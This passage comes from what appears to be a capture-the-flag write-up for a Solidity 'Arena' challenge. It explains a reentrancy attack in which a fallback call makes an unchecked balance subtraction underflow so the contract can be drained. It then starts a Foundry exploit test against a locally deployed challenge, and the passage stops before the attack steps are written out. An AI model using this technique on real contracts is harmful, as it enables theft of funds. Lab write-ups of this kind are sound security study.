 Sequence of events:

1. `withdraw` sees `balanceOf[player]` high enough, sends `amount` ether and only <5000 gas (explained in previous point).
2. Fallback triggers `transfer(address(0),1)` which **reduces** our arena balance by one while still inside the external call (both address 0 and our balance slots are warmed).
3. Control returns to `withdraw`; it executes the unchecked subtraction using the *already-decremented* balance.
4. Result underflows to `(balance - 1) - amount`, because we asked `amount` with `balance`. Our balance is now effectively max-uint.
5. A second call to `withdraw` with `address(arena).balance` as the parameter empties the contract, easily pushing the EOA over the 500-ETH win line.

### Putting it all together

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test, console, Vm} from "forge-std/Test.sol";
import "../src/Challenge.sol";
import "../src/Arena.sol";

contract Exploit is Test {
    Challenge public challenge;
    Arena public arena;
    Randomness public randomness;

    address system = makeAddr("system");
    address player;
    uint256 playerPk;

    uint256 internal _nonce;

    modifier runAsPlayer() {
        vm.startPrank(player, player);
        _;
        vm.stopPrank();
    }

    modifier solved() {
        _;
        _isSolved();
    }

    /**
     * setup chall' locally
     */
    function setUp() public {
        (player, playerPk) = makeAddrAndKey("player");

        startHoax(system);
        payable(player).transfer(8 ether);
        challenge = new Challenge{value: 500 ether}();
        arena = challenge.arena();
        vm.stopPrank();
    }

    function test_runSploit() external solved {
        step1(); // player
        _doBattle(); // server role
        step2(); // player
    }

```